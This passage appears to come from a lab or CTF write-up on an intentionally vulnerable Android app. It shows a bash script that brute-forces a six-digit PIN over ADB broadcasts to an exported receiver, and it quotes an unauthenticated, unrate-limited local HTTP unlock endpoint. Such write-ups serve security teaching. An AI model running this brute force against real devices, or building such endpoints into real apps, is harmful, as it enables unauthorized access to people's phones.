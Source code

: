 ```bash
#!/bin/bash
# Simple broadcast brute force via ADB

for pin in {000000..999999}; do
    # Send broadcast with PIN
    adb shell am broadcast \
        -a com.eightksec.borderdroid.ACTION_PERFORM_REMOTE_TRIGGER \
        -n com.eightksec.borderdroid/.receiver.RemoteTriggerReceiver \
        --es com.eightksec.borderdroid.EXTRA_TRIGGER_PIN "$pin"
    
    # Check if unlocked (every 100 attempts to save time)
    if [ $((pin % 100)) -eq 0 ]; then
        activity=$(adb shell dumpsys activity activities | grep -m 1 mResumedActivity)
        if [[ "$activity" == *"DashboardActivity"* ]]; then
            echo "✅ PIN FOUND: $pin"
            exit 0
        fi
    fi
done
```

---

### Attack Vector #3: HTTP Endpoint

Here's where it gets interesting. The app runs a **local HTTP server on port 8080** that accepts unlock requests:

```kotlin
// HttpUnlockService.kt - WebServer class
override fun serve(session: IHTTPSession): Response {
    if (session.method == Method.POST && "/unlock".equals(session.uri, true)) {
        val json = JSONObject(postData)
        val pin = json.optString("pin")
        
        //  No authentication
        //  No rate limiting
        //  Accessible from localhost
        broadcastVulnerableUnlockIntentWithPin(pin)
        
        return newFixedLengthResponse(Status.OK, "text/plain", 
            "Unlock attempt initiated (vulnerable pathway).")
    }
}
```

**The Critical Flaw:**

1. No authentication required
2. No rate limiting
3. Accessible from any local process
4. **Internally calls the same broadcast receiver!**
